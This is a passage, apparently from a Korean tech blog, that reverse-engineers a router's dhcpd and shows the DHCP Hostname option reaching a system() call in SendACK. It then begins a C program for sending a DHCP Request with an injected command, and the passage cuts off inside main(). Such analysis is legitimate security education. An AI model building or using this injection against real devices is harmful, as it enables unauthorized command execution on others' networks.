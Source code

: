 ## (세 번째) 시스템 함수의 인자가 사용자 입력 값에 영향을 받는가?

앞의 과정에서 `sprintf` 함수의 문자열 인자가 상위 코드에서 연산 후 생성된 값이라는 것을 추측하였습니다. 값이 레지스터에 존재한다는 것은 연산 과정을 거쳤다는 뜻입니다. 해당 인자를 역추적하여 생성되는 과정을 분석한 결과 `sprintf` 함수의 문자열 인자는 `get_option` 함수의 리턴 값이라는 것을 확인하였습니다.

![](https://image.toast.com/aaaadh/real/2023/techblog/fci4.png)

- `dhcpd`는 오픈소스이므로 `get_option` 함수의 소스 코드를 인터넷에서 찾아볼 수 있습니다. `get_option` 함수는 `dhcp_message` 구조체의 DHCP 옵션 정보를 구하는 함수입니다.
- dhcpd URL: [<VPIcon icon="iconfont icon-github"/>https://github.com/cobyism/edimax-br-6528n/blob/master/boot-source/bootcode_rtl8196c_98/boot/init/dhcpd.c](https://github.com/cobyism/edimax-br-6528n/blob/master/boot-source/bootcode_rtl8196c_98/boot/init/dhcpd.c)

![](https://image.toast.com/aaaadh/real/2023/techblog/fci5.png)

- `get_option` 함수의 첫 번째 인자는 `dhcp_message` 구조체의 포인터이고, 두 번째 인자는 옵션 코드입니다. 해당 블록에서는 `0x0C`를 전달하며, `0x0c`는 Client의 Hostname을 의미합니다.
- 즉 `get_option` 함수의 리턴 값은 Client의 Hostname의 주소입니다. 결국 `system` 함수의 인자는 Client의 Hostname이 동적으로 삽입됩니다.

![](https://image.toast.com/aaaadh/real/2023/techblog/fci6.png)

- SendACK라는 함수 이름으로 미루어 보아 DHCP ACK를 보내는 함수로 추측됩니다.
- DHCP Request 패킷의 Hostname을 조작하면 command Injection 공격이 가능할 것이라 추측됩니다.

![](https://image.toast.com/aaaadh/real/2023/techblog/fci7uB300uC9C0%201.png)

---

## 실습

DHCP Request 패킷의 Hostname 조작을 위해 간단한 프로그램을 제작하였습니다. (Python의 scapy 라이브러리를 통해 직접 구현해 보는걸 추천합니다.)

### `main.c`

```c
#include<stdio.h>
#include<stdlib.h>
#include<string.h>
#include<winSock2.h>
#include<IPHlpApi.h>
#include "dhcp_req.h"
#pragma comment(lib, "iphlpapi.lib")
#pragma comment(lib, "ws2_32.lib")
void error_handling(char * message);
void set_boost_custom(struct boost_custom * boost_custom_o, int boost_custom_size);
void set_mac_address(struct boost_custom * boost_custom_o);
void set_ip_address(struct boost_custom * boost_custom_o);
void set_injection_code(struct boost_custom * boost_custom_o, char * injection_code, int injection_code_size);
int main(int argc, char ** argv)
{
    WSADATA wsa_data;
    SOCKET send_sock;
    SOCKADDR_IN send_addr;
    struct boost_custom boost_custom_o;
    struct boost_custom * boost_custom_ptr = &boost_custom_o;
    short dhcp_port = 67;

    if (argc != 3)
    {
        printf("Usage : %s<DHCP Server IP address><Injection Code>", argv[0]);
        exit(1);
    }
```